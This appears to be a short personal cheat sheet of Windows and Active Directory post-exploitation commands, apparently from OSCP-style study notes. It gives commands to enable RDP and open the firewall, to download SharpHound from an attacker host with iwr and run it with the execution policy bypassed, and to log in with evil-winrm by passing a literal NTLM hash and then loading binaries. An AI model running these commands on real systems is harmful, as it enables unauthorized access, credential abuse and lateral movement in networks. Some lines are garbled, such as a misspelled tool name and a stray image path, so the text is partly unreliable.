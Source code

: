 Windows: 

### open firewall
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Bloodhound 

```
.\Sharphoun.exe -c all,group 

PS C:\Users\marcus> iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass

PS C:\Users\marcus> . .\SharpHound.ps1

PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
```

EVIL-WinRM:

once you login with evil-winrm 

```bash
evil-winrm -i 192.168.173.165 -u 'svc_apache' -H 4FC1682833B24CF2225248D67DF7E618 -e "<kali-path>"

$Evil-WinRM PS C:\> Invoke-Binary

$Evil-WinRM PS C:\> Invoke-Binary <kali-Path> run <paramter> 
```

This will help to connect **`metasploit`** this is userfull

https://github.com/tedchen0001/OSCP-Notes/blob/master/AD.md
